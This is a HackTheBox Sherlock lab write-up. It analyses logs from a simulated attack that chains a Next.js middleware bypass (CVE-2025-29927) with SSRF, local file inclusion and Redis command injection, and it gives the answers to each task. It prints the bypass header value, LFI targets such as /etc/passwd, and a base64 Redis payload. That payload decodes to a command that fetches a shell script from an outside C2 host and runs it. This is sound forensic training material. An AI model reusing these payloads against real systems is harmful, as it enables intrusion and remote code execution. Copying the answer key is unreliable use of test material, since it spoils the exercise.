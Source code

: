 # [HackTheBox Sherlocks - NeuroSync-D](https://app.hackthebox.com/sherlocks/NeuroSync-D)
![88c28e4ff83a53a51595847681cbfab9.png](..//resources/88c28e4ff83a53a51595847681cbfab9.png)
**Scenario:**
NeuroSync™ is a leading suite of products focusing on developing cutting edge medical BCI devices, designed by the Korosaki Coorporaton. Recently, an APT group targeted them and was able to infiltrate their infrastructure and is now moving laterally to compromise more systems. It appears that they have even managed to hijack a large number of online devices by exploiting an N-day vulnerability. Your task is to find out how they were able to compromise the infrastructure and understand how to secure it.

* * *
![a0cde20a073d5ec4a92ea8306e851214.png](..//resources/a0cde20a073d5ec4a92ea8306e851214.png)

On this sherlock, we will have to dig into how the Next.js middleware bypass could be exploited and could be chained for SSRF, Local File Inclusion and command execution on Redis! 

we will have 5 log files to investigate from
1. `access.log`: This is typically a web server log which records every HTTP/S request made to the system.
2. `bci-device.log`: This is likely a custom log related to a **BCI** (Brain-Computer Interface) or a similarly named device/system. It logs interactions between the software and the physical or virtual device.
3. `data-api.log`: Log file from a backend API that handles data requests.
4. `interface.log`: This tracks what’s happening on the user interface (GUI or CLI). It logs how users interact with the system or app front-end.
5. `redis.log`: Logs from Redis, an in-memory database often used for caching, session storage, or real-time data.

>Task 1: What version of Next.js is the application using?

![ade2336486fb2cece942c8e6419515fd.png](..//resources/ade2336486fb2cece942c8e6419515fd.png)

Since Next.js is React-based full-stack framework so we could inspect the `interface.log` to find out the version and also the local port that Next.js-based application was running on the server as shown in the image above.

```
15.1.0
```

>Task 2: What local port is the Next.js-based application running on?
```
3000
```

>Task 3: A critical Next.js vulnerability was released in March 2025, and this version appears to be affected. What is the CVE identifier for this vulnerability?

![c28e0a8bb94a5d569e8131cc270e10eb.png](..//resources/c28e0a8bb94a5d569e8131cc270e10eb.png)

In March 2025, the new Next.js middleware bypass vulnerability was disclosed with **9.1 CVSS** score which threat actor/attack can send the `x-middleware-subrequest` header that meant to be used internally with a specific value to **trick the application into treating them as internal subrequests** which effectively bypass middleware authorization and access the endpoint/resources that are not intended to be accessed without proper authorization.  

![b16cd9bed4c7da3d6f3d5b6274acc801.png](..//resources/b16cd9bed4c7da3d6f3d5b6274acc801.png)

An article published on [Project Discovery](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass) also provides different values that could be used with `x-middleware-subrequest` header on different version of vulnerable Next.js and also provides Nuclei template to discover this vulnerability.

![435ca2036c9e979fd31214f254a1f89b.png](..//resources/435ca2036c9e979fd31214f254a1f89b.png)

The article also explained how this template works which will help us on this sherlock as well! 

```
CVE-2025-29927
```

>Task 4: The attacker tried to enumerate some static files that are typically available in the Next.js framework, most likely to retrieve its version. What is the first file he could get?

![0196e129488dfc2a15e293bd767e363e.png](..//resources/0196e129488dfc2a15e293bd767e363e.png)

Lets check out the `access.log` file which we can see that there is only a single IP address that interacted with the Next.js application.

![a003ff40df544beda7fe95b4c093bd80.png](..//resources/a003ff40df544beda7fe95b4c093bd80.png)

Then we can read the content of the log file which we can see that the first HTTP response beside `/` happened at 11:37:44.

```
main-app.js
```

>Task 5: Then the attacker appears to have found an endpoint that is potentially affected by the previously identified vulnerability. What is that endpoint?

![52b6df7a7764762f1d9e4af57084d7db.png](..//resources/52b6df7a7764762f1d9e4af57084d7db.png)

We can see that after the attacker discovered main page of this Next.js application, an api endpoint was requested constantly by the attacker and the first 5 requests are resulted in Unauthorized response.

```
/api/bci/analytics
```

>Task 6: How many requests to this endpoint have resulted in an "Unauthorized" response?

![2ff32fe9e1570a4940e1262c1038b803.png](..//resources/2ff32fe9e1570a4940e1262c1038b803.png)

We know that the first 5 request to this api endpoint resulted in Unauthorized response but is there more?, the result from `grep 401 access.log` command shows that there are no more than this.

```
5
```

>Task 7: When is a successful response received from the vulnerable endpoint, meaning that the middleware has been bypassed?

![89447a341e7c1d699735e7065a4b9a47.png](..//resources/89447a341e7c1d699735e7065a4b9a47.png)

Then after those 5 unauthorized access, HTTP 200 status was seen from the 6th request and the rest and it indicates that the middleware authorization has been bypassed according to Nuclei template provides by [Project Discovery](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass).

```
2025-04-01 11:38:05
```

>Task 8: Given the previous failed requests, what will most likely be the final value for the vulnerable header used to exploit the vulnerability and bypass the middleware?

![8fee94ba380637d33571ea851dc3ceae.png](..//resources/8fee94ba380637d33571ea851dc3ceae.png)

Since the Next.js running on this application is 15.1 which mean the value of `x-middleware-subrequest` header has to be `middleware:middleware:middleware:middleware:middleware` to actually get to trigger this vulnerability 

and from `interface.log`, we can see that there are 4 attempts trying to get this vulnerability to work which was resulting to successfully exploited this vulnerability at the end.

```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

>Task 9: The attacker chained the vulnerability with an SSRF attack, which allowed them to perform an internal port scan and discover an internal API. On which port is the API accessible?

![1b09ac335741eb728aaeee9d8f8aacb9.png](..//resources/1b09ac335741eb728aaeee9d8f8aacb9.png)

We can inspect the `data-api.log` file which we can see that the attacker used curl to trigger SSRF vulnerability and discovered another internal API on port 4000 which attacker then proceed to find other endpoint on this API.

```
4000
```

>Task 10: After the port scan, the attacker starts a brute-force attack to find some vulnerable endpoints in the previously identified API. Which vulnerable endpoint was found?

![f7042475e8f34040c76a5a282b19ce86.png](..//resources/f7042475e8f34040c76a5a282b19ce86.png)

We could keep scrolling until we finally see the payload that resemble Local File Inclusion vulnerability exploitation payload from `/logs` endpoint which attacker found that he could leverage `logFile` variable on this endpoint to list file from the server.

```
/logs
```

>Task 11: When the vulnerable endpoint found was used maliciously for the first time?

![f7042475e8f34040c76a5a282b19ce86.png](..//resources/f7042475e8f34040c76a5a282b19ce86.png)

We can see that the attacker started with `/etc/passwd` first then went to `/proc/self/environ` later.

```
2025-04-01 11:39:01
```

>Task 12: What is the attack name the endpoint is vulnerable to?
```
Local File Inclusion
```

>Task 13: What is the name of the file that was targeted the last time the vulnerable endpoint was exploited?

![b796692387a8c743b2a92719f7da58d6.png](..//resources/b796692387a8c743b2a92719f7da58d6.png)

Lastly the attacker then used LFI to get secret key file from tmp directory before went to access Redis with the key obtained.

```
secret.key
```

>Task 14: Finally, the attacker uses the sensitive information obtained earlier to create a special command that allows them to perform Redis injection and gain RCE on the system. What is the command string?

![79efce5295123a9c70b884785a597551.png](..//resources/79efce5295123a9c70b884785a597551.png)

From redis log, we can see that the attacker executed base64 command after he successfully compromised secret key to access Redis.

```
OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad7073e3a448fa13bbb
```

>Task 15: Once decoded, what is the command?

![04e2d568d2a8e4db3133366bbbec8cbb.png](..//resources/04e2d568d2a8e4db3133366bbbec8cbb.png)

We can copy the base64 to decode it directly with CyberChef which we can see that the attacker trying to fetch the bash script from C2 and execute it.

![7c3c171fd417253729cad642ed03a045.png](..//resources/7c3c171fd417253729cad642ed03a045.png)

We could also find the same command from `bci-device.log` which gave us an extra context that this command did not work due to the missing `wget` binary on the server.

```
wget http://185.202.2.147/h4Pln4/run.sh -O- | sh
```

https://labs.hackthebox.com/achievement/sherlock/1438364/879

And now we are done!
* * *
